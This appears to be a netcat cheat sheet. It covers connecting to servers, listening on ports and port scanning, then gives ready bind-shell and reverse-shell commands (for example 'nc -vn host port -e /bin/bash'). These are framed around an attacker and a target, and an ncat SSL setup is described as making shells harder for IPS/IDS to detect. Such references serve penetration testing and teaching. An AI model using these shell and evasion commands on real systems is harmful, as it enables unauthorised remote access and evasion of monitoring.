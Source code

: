 Netcat, known as the "Swiss Army knife of networking," is a versatile command-line tool for reading and writing over network connections. It can be used for port scanning, file transfer, and even as a backdoor. Netcat allows you to establish TCP or UDP connections as both a client and a server, providing flexibility for a variety of applications, such as debugging network services and testing connectivity. It supports multiple protocols, including TCP, UDP, and Unix domain sockets, and can handle both IPv4 and IPv6 connections. It offers options for controlling data flow, setting timeouts, and handling data packets, providing users with precise control over their network interactions.

## How to Interact with a server
`nc host port`

Example: `nc -v www.host.com 21`
Example: `nc -v www.host.com 80`

## Opening a port and connecting
`nc command port`

### Opening a port
Example Windows: `nc.exe -vlp port`

Example Linux: `nc -vlp port`

### Connecting to a port
Example Windows: `nc.exe ip port`

Example Linux: `nc -v ip port`

## Port Scanning
`nc -vnz host port`

Example: `nc -vnz 192.168.0.1 1-1024`

## Bind Shell x Reverse Shell
### Bind Shell
In the Bind Shell, the attacker connects directly to the target's port


Example Linux opening the shell: `nc -vnlp port -e /bin/bash`

Example Windows to connect: `nc.exe -vn host port`


Example Windows opening the shell: `nc.exe -vnlp port -e cmd.exe`

Example Linux  to connect: `nc -vn host port`

### Reverse Shell
In the Reverse shell, the target connects and sends the shell to the attacker


Example Linux opening the port: `nc -vnlp port`

Example  Windows sending the shell: `nc.exe -vn host port -e cmd.exe`


Example Windows opening the port: `nc.exe -vnlp port`

Example Linux sending the shell: `nc -vn host port -e /bin/bash`

## Netcat x Ncat
Netcat has the ability to encrypt the data being passed through the shell, which makes it difficult for an IPS or an IDS to detect any threats


How to create the SSL key: `openssl req -x509 -newkey rsa:2048 -keyout chave.pem -out cert.pem -days 10`

How to make the communication: `ncat -vnlp <port> --ssl-key chave.pem --ssl-cert cert.pem`

How to connct: `ncat -vn <host> <port> --ssl`
